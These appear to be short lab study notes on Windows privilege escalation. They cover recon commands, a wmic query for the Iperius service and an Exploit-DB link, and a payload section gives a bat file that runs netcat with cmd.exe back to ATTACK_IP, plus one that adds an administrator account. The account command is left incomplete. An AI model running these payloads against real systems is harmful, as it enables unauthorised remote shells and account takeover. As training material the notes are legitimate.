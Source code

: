 # Windows Privilege Escalation

You are looking for LEADUP
- Lazy administrator -> text password, account that has higher privilege
- Exploitation -> kernel level exploit
- Access token -> forge, duplicate, or steal authorization token.
- DLL hijacking (Dynamic Link Library) -> DLL runs at the same privilege as its program.
-  User access control bypass
-  Patch level -> related to older OS that hasn't been patched.


Recon
```
whoami
systeminfo | findstr "OS"
net user
net localgroup Administrators
```

Using Windows Management Instrumentation Console, i.e. finding Iperius
```
wmic service list | findstr "Iperius"
```


## Privilege Escalation
Iperius Privilege Escalation
https://www.exploit-db.com/exploits/46863

## Payload
Create bat file with value of:

Netcat as administrator
```shell
@echo off
C:\Users\McSkidy\Downloads\nc.exe ATTACK_IP 1337 -e cmd.exe
```

Create user and add as Administrator 
```shell
@echo off
net user username password /add && net localgroup Administrators 
```

